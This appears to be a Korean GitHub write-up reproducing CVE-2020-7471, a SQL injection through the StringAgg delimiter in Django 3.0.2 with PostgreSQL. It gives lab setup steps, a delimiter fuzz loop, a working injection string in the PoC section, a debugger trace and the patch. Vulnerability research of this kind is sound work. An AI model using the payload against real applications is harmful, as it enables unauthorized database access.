 # CVE-2020-7471

## 1. 환경 구성
+ **Ubuntu 20.04 버전**

+ **Django 3.0.2 설치**
  + pip install django~=3.0.2
 
+ **postgresql 13 설치**
  + sudo apt-get update
  + sudo apt show postgresql
  + sudo apt -y install postgresql postgresql-contrib
  + /etc/init.d/postgresql start
 
+ **가상환경 구성**
  + virtualenv newenv
  + source newenv/bin/activate
  + pip install django~=3.0.2
  + django-admin --version
  + deactivate
 
+ **psycopg2 설치**
  + pip install psycopg2==2.8.6
+ **setting.py 설정**  
```
#setting.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'hxd',         
        'USER': 'postgres',
        'PASSWORD': '123456',
        'HOST': '127.0.0.1',
        'PORT': '5432',
    }
}
```
+ **마이그레이션**
```
#DB에 적용하는 과정
python3 manage.py migrate

#test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
python3 manage.py makemigrations test_app

#test_app 앱을 DB에 적용하는 과정
python3 manage.py migrate test_app
```
+ **DB 생성**
  + CREATE DATABASES test
  + DB 조회: \c test
  + 테이블 조회: \d
  + 컬럼 조회: select * from vul_app_info;
 
    ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

--------------------------------------------------------------------------------------------------------------------------
## 2. PoC
+ **구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램**
```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```
 + **정상적인 SQL 구문 출력**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

   ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)


  + **SQL Injection 구문**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
```

   ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)


+ **python CVE-2020-7471.py**

![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


---------------------------------------------------------------------------------------------------------------------

## 3. 대응방안

+ **테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력**

![2](https://user-images.githubusercontent.com/89399749/130728331-ec88aeb2-13bf-4502-a66e-a995cc22284f.png)


+ **self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인**

![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)


+ **86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인**

![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)


+ **작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인**


![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)


+ **delimiter_expr = Value(str(delimiter))**
  + **해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함**

![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

---------------------------------------------------------------------------------------------------------------------

## 4. 참조
+ https://github.com/Safeman/CVE-2020-7471
+ https://www.heibai.org/1661.html
